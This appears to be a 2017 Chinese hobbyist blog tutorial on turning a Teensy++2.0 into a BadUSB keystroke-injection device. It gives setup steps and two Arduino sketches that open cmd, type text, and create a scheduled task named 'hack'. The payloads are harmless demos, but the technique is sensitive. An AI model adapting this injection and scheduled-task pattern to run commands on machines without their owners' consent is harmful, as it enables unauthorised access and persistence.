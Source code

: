 title: BadUSB —— Teensy++2.0
author: hojun
avatar: https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1ftand2qurdj303c03cdfv.jpg
authorDesc: 一个好奇的人
categories: 技术
date: 2017-06-07 11:18:31
authorLink: /about/hojun.html /about_hojun.html
authorAbout:
tags:
 - 搞事
 - 硬件
 - hacker
keywords: BadUSB —— Teensy++2.0
description: BadUSB —— Teensy++2.0
photos:
 - https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fljtj7mwiaj30dw0dwdmi.jpg
---
参考http://bbs.pediy.com/showthread.php?t=213719
前几天发现了BadUSB这个好玩的东西，橡皮鸭和烧鹅都买不起就在某宝上买了个Teensy++2.0
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fljtj7mwiaj30dw0dwdmi.jpg)

## **1.下载Teensyduino**

https://www.pjrc.com/teensy/td_download.html

## **2.安装Arduino。我这里安装1.8.0**

https://pan.baidu.com/s/1b4jPX8#list/path=%2F&parentPath=%2FArduino

## **3.安装Teensyduino**

![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fljtj72nghj30e20atju0.jpg)
注意红色框起来的是支持的Arduino版本。

4.可以插入Teensy++2.0开始搞事了
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fljtj6jkxnj30dw0gogmj.jpg)

注意：
1.汉化 file->preferences 选择language为简体中文 2.工具里面要选![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fljtj5zbdrj30i2051dg0.jpg)
送份代码：

代码：
```c
void setup(){ //初始化
  Keyboard.begin();//开始键盘通信
  delay(1000);//延时1000毫秒，不要太短，因为每天电脑的运行速度都不一样 
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键
  delay(500);
  Keyboard.press(KEY_LEFT_GUI);//按下徽标键 也就是win键  
  delay(500);  
  Keyboard.press('r');//按下r键  
  delay(500);  
  Keyboard.release(KEY_LEFT_GUI);//松掉win键  
  Keyboard.release('r');//松掉r键  
  //delay(500);  
  Keyboard.println("cmd");//输入cmd进入DOS
  delay(500);
  Keyboard.press(KEY_RETURN);  //按下回车键
  Keyboard.release(KEY_RETURN); //释放回车键
  delay(500);  
  Keyboard.println("Hello Teensy++2.0"); 
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  delay(500);  
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键  
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键 我们再次关闭开启的大写键
  delay(500); 
  Keyboard.println("exit");
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  Keyboard.end();//结束键盘通讯
} 

void loop()//循环，这里的代码
{ 
//循环体 写入你要循环的代码
}
```

在附一段代码，在21点打开个txt
```c
void setup(){ //初始化
  Keyboard.begin();//开始键盘通信
  delay(1000);//延时1000毫秒，不要太短，因为每天电脑的运行速度都不一样 
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键
  delay(500);
  Keyboard.press(KEY_LEFT_GUI);//按下徽标键 也就是win键  
  delay(500);  
  Keyboard.press('r');//按下r键  
  delay(500);  
  Keyboard.release(KEY_LEFT_GUI);//松掉win键  
  Keyboard.release('r');//松掉r键  
  //delay(500);  
  Keyboard.println("cmd");//输入cmd进入DOS
  delay(500);
  Keyboard.press(KEY_RETURN);  //按下回车键
  Keyboard.release(KEY_RETURN); //释放回车键
  delay(500);  
  Keyboard.println("D:");
  Keyboard.println("echo I'm back!>a.txt"); 
  Keyboard.println("schtasks /create /tn \"hack\" /tr \"d:a.txt\" /sc once /st 21:12"); 
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  delay(500);  
  Keyboard.press(KEY_CAPS_LOCK); //按下大写键  
  Keyboard.release(KEY_CAPS_LOCK); //释放大写键 我们再次关闭开启的大写键
  delay(500); 
  Keyboard.println("exit");
  Keyboard.press(KEY_RETURN);  //按下回车键  
  Keyboard.release(KEY_RETURN); //释放回车键  
  Keyboard.end();//结束键盘通讯
} 

void loop()//循环，这里的代码
{ 
//循环体 写入你要循环的代码
}
```